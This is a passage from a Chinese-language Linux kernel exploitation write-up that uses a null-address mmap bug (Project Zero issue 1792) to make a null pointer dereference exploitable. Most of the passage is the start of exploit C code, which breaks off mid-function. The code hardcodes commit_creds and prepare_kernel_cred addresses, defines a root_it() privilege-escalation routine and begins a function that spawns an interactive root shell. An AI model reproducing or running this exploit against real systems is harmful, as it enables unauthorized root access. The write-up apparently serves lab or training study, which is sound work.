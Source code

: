 这时候就引入了另一个漏洞

零地址空间漏洞

[https://bugs.chromium.org/p/project-zero/issues/detail?id=1792](https://bugs.chromium.org/p/project-zero/issues/detail?id=1792)


这个漏洞可以在0地址上mmap出一块内存区域。

这样你空指针引用就有了意义，它就不会导致crash了。

#### exp

    #define _GNU_SOURCE

    #include <stdio.h>
    #include <sys/types.h>
    #include <sys/stat.h>
    #include <fcntl.h>
    #include <stdlib.h>
    #include <unistd.h>
    #include <string.h>
    #include <sys/syscall.h>
    #include <stdbool.h>
    #include <sys/wait.h>
    #include <stdint.h>
    #include <sys/mman.h>

    /* ============================== Kernel stuff ============================== */

    /* Addresses from System.map (no KASLR) */
    #define COMMIT_CREDS_PTR	0xffffffff81084370lu		// MDL: fix this symbol
    #define PREPARE_KERNEL_CRED_PTR	0xffffffff810845a0lu	// MDL: fix this symbol

    typedef int __attribute__((regparm(3))) (*_commit_creds)(unsigned long cred);
    typedef unsigned long __attribute__((regparm(3))) (*_prepare_kernel_cred)(unsigned long cred);

    _commit_creds commit_creds = (_commit_creds)COMMIT_CREDS_PTR;
    _prepare_kernel_cred prepare_kernel_cred = (_prepare_kernel_cred)PREPARE_KERNEL_CRED_PTR;

    void __attribute__((regparm(3))) root_it(unsigned long arg1, bool arg2)
    {
        commit_creds(prepare_kernel_cred(0));
    }

    struct drill_item_t {
        uint32_t foo;
        uint64_t callback;
        char bar[1];
    };

    /* ========================================================================== */

    void run_sh(void)
    {
        pid_t pid = -1;
        char *args[] = {
            "/bin/sh",
            "-i",
            NULL
        };
        int status = 0;
